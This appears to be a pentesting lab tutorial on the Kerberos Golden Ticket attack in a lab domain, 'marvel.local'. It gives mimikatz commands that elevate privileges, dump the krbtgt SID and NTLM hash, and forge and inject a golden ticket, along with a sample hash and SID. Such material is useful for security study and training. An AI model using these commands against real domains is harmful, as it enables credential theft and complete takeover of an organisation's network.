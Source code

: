 
## **Overview**

- [ ] **What is it ?**
	- When we compromise the krbtgt account, we own the domain
	- We can request access to any resource or system on the domain
	- Golden tickets == Complete access to every machine

- [ ] We can utilize `mimikatz` to obtain the information necessary to perform this attack
- [ ] There are a couple of conditions need to be met 
	- We need the krbtgt NTLM hash
	- We also need the domain SID 
- [ ] Once we have this we can generate our golden ticket and once it is generated we can use an attack call **Pass-the-Ticket** in other to utilize this anywhere

## **Attack Scenario**

First of all make sure you transfer `mimikatz` to your domain controller then we can start it through the **Command Prompt**

```powershell
# start mimikatz
C:\Users\Administrator\Downloads>mimikatz.exe

# Elevate to highest integrity level
mimikatz # privilege::debug
mimikatz # token::elevate
```


### **Dumping the SID and NTLM hash**

```powershell
# Dump the sid and NTLM hash of the krbtgt user
mimikatz # lsadump::lsa /inject /name:krbtgt
```


#### **Example**

![](https://i.imgur.com/4XcWt6w.png)

**Note :** Copy both the SID and NTLM hash to your note pad on your DC



### **Generating Tickets**

```powershell
# /User : fake user account
# /domain : domain controller
# /sid : the sid we saved to note pad
# /krbtgt : the NTLM hash 
# /id:

mimikatz # kerberos::golden /User:secfortress /domain:marvel.local /sid:S-1-5-21-4089637540-2738901061-2314813381 /krbtgt:f362ad348de4e7392c0309959ec0775d /id:500 /ptt
```